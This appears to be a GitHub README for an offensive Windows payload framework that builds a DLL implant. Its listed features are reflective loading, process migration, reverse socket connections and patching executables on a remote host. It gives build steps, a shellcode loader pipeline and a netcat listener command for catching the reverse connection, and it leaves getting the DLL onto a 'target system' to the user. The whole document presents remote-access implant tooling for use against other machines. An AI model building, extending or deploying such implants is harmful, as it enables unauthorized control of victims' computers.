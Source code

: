 Framework
=========

A framework for writing custom 64-bit Win32 payloads
in the form of a dll.

The framework provides some userspace tools for
the payloads:

 * Reflective loading
 * Process migration
 * Reverse socket conections
 * Patching DLLs and EXEs on remote host

Building
--------

You will need:

 * Cygwin (64 bit) -- make, mingw64-x86_64-gcc-g++
 * Ruby (Cygwin's or native Window's version, doesn't matter)
 * Git (well duh)
 
Fire up cygwin

    git clone https://github.com/floomby/framework.git
    cd framework

Edit config.h to suit your need. The comments explain things.

    make dll

This builds framework.dll. It is up to you to get
it running on a target system. There is shellcode
in the shellcode directory to help you get started.

Assuming RPORT => 1234 and RHOST => localhost you
can do the following

    make tools
    cd shellcode/loader
    ./loader | ruby >sc && cat ../../framework.dll >>sc
    (../../tools/sc-test/sc-test sc &) && nc -l 1234
    
Usage
-----

COMING SOON

Bugs
----

Right now I am aware of two bugs, both are minor

 * memory is not freeded properly on migration out of process
 * sc-test stays running for a couple minutes when launched as
   described in the instructions, this is due to it waiting
   for all the windsock threads to terminate before exiting

Notes
-----

 * patch is incomplete
 * this is not much better than a normal shell
 * it can be cached to disk
 
All of these will be fixed in the nearish future.

